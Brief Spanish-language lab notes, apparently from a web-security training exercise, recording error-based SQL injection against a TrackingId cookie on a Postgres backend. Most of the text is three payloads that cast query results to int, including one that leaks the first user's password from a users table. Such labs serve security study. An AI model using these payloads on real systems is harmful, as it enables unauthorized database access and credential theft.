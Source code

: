 
Postgres encontrado

```R
TrackingId='+AND+1=CAST((SELECT+version()+FROM+users+LIMIT+1)+AS+int)--+-
```

![[Pasted image 20250104213054.png]]

La contraseña del primer usuario se leakea con esta query
```R
TrackingId='+AND+1=CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--+-
```

O de otra forma (NO APLICA)


```R
TrackingId='+UNION+SELECT+1=CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--+-
```